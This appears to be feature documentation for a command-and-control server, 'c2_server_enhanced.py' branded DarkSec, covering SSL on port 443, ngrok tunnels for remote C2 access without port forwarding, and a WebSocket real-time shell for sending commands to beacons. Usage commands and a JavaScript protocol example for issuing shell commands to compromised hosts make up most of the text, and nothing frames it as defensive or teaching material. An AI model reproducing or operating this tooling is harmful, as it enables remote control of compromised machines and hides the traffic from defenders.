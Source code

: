 **Usage:**
```bash
python c2_server_enhanced.py --ssl --port 443
```

**Technical Details:**
- Uses cryptography library
- Subject: CN=darksec.local, O=DarkSec
- SHA256 signature algorithm

---

### 2. Ngrok Integration 🌐

**Description:** Create public tunnels for remote C2 access without port forwarding.

**Features:**
- Automatic tunnel creation
- Auth token support
- Public URL extraction
- Graceful shutdown

**Usage:**
```bash
# Get ngrok token from https://ngrok.com
python c2_server_enhanced.py --ngrok --ngrok-token YOUR_TOKEN
```

**API Response:**
```
[*] Ngrok tunnel active: https://abc123.ngrok.io
```

---

### 3. WebSocket Real-time Shell ⚡

**Description:** Bidirectional real-time shell for instant command execution.

**Endpoint:** `ws://server:port/ws/shell/<beacon_id>`

**Protocol:**
```javascript
// Authentication (first message)
ws.send(JSON.stringify({
    api_key: "YOUR_API_KEY"
}));

// Send command
ws.send(JSON.stringify({
    command: "whoami"
}));

// Receive response
{
    "command_id": 123,
    "status": "queued"
}
```
